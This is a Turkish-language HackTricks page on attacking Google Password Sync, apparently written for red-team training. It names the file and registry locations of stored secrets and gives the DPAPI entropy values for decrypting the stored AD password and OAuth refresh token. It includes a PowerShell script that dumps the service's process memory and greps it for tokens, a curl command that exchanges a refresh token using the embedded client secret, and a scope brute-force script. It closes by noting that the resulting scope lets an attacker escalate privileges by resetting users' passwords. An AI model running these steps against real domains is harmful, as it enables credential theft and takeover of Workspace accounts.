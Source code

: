 # GPS - Google Password Sync

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Bu, Google'ın **AD ile Workspace arasındaki kullanıcıların şifrelerini senkronize tutmak için** sunduğu ikili dosya ve hizmettir. Bir kullanıcı AD'de şifresini her değiştirdiğinde, bu Google'a ayarlanır.

`C:\Program Files\Google\Password Sync` dizinine kurulur; burada yapılandırmak için `PasswordSync.exe` ikili dosyasını ve çalışmaya devam edecek olan `password_sync_service.exe` (hizmet) dosyasını bulabilirsiniz.

### GPS - Yapılandırma

Bu ikili dosyayı (ve hizmeti) yapılandırmak için, **Workspace'de bir Süper Yönetici yetkisi vermek** gerekmektedir:

* Google ile **OAuth** üzerinden giriş yapın ve ardından **kayıt defterinde (şifreli) bir token saklayacaktır**
* Sadece GUI'ye sahip Alan Denetleyicilerinde mevcut
* **Workspace kullanıcılarını yönetme** izinlerine sahip bazı **GCP Hizmet Hesabı kimlik bilgileri** (json dosyası) vermek
* Bu kimlik bilgileri asla süresi dolmadığı için çok kötü bir fikirdir ve kötüye kullanılabilir
* Workspace üzerinde bir SA'ya erişim vermek çok kötü bir fikirdir çünkü SA GCP'de tehlikeye girebilir ve Workspace'e geçiş yapmak mümkün olacaktır
* Google, GUI'siz alan denetimleri için bunu gerektirir
* Bu kimlik bilgileri de kayıt defterinde saklanır

AD ile ilgili olarak, mevcut **uygulama bağlamını, anonim veya bazı özel kimlik bilgilerini** kullanmasını belirtmek mümkündür. Kimlik bilgileri seçeneği seçilirse, **kullanıcı adı** bir dosyada **diskte** saklanır ve **şifre** **şifrelenir** ve **kayıt defterinde** saklanır.

### GPS - Diskten şifre ve token dökme

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GPS**'yi tespit edebilir, yapılandırma hakkında bilgi alabilir ve **şifreyi ve token'ı bile şifreleyebilir**.
{% endhint %}

**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** dosyasında, yapılandırmanın bir kısmını bulmak mümkündür; burada yapılandırılan AD'nin **`baseDN`** ve kullanılan kimlik bilgileri olan **`username`** yer alır.

Kayıt defterinde **`HKLM\Software\Google\Google Apps Password Sync`** altında, AD kullanıcısı için **şifrelenmiş yenileme token'ı** ve **şifrelenmiş şifre** bulunabilir (varsa). Ayrıca, bir token yerine bazı **SA kimlik bilgileri** kullanılıyorsa, bu kimlik bilgileri de o kayıt defteri adresinde şifrelenmiş olarak bulunabilir. Bu kayıt defterindeki **değerler** yalnızca **Yönetici** tarafından **erişilebilir**.

Şifrelenmiş **şifre** (varsa) **`ADPassword`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Şifrelenmiş token (varsa) **`AuthToken`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ayrıca, bu değerler **`0123456789abcdefghijklmnopqrstv`** sözlüğü ile base32hex kullanılarak kodlanmıştır.

Entropy değerleri, aracı kullanarak bulundu. Araç, **`CryptUnprotectData`** ve **`CryptProtectData`** çağrılarını izlemek için yapılandırıldı ve ardından `PasswordSync.exe`'yi başlatmak ve izlemek için kullanıldı; bu, yapılandırılan şifreyi ve kimlik doğrulama token'ını başta çözmekte ve araç, her iki durumda kullanılan **entropy** değerlerini **gösterecektir**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Bu API'lere yapılan çağrıların giriş veya çıkışında **şifrelenmemiş** değerleri görmek de mümkündür (eğer bir noktada Winpeas çalışmayı durdurursa).

Eğer Şifre Senkronizasyonu **SA kimlik bilgileri ile yapılandırılmışsa**, bu da kayıt defterindeki **`HKLM\Software\Google\Google Apps Password Sync`** anahtarları içinde saklanacaktır.

### GPS - Bellekten token dökme

GCPW ile olduğu gibi, `PasswordSync.exe` ve `password_sync_service.exe` süreçlerinin belleğini döklemek mümkündür ve yenileme ve erişim token'larını bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca, AD yapılandırılmış kimlik bilgilerini de bulabilirsiniz.

<details>

<summary>Dump <code>PasswordSync.exe</code> ve <code>password_sync_service.exe</code> süreçlerini ve token'ları arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Kapsamlar

{% hint style="info" %}
Bir refresh token'ınız olsa bile, erişim token'ı için herhangi bir kapsam talep etmenin mümkün olmadığını unutmayın, çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, refresh token her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GPS, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları brute-force yapmak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
https://www.googleapis.com/auth/admin.directory.user
```
Hangi, herhangi bir kapsam belirtmediğinizde aldığınızla aynıdır.

{% hint style="danger" %}
Bu kapsam ile **mevcut bir kullanıcının şifresini değiştirerek ayrıcalıkları artırabilirsiniz**.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
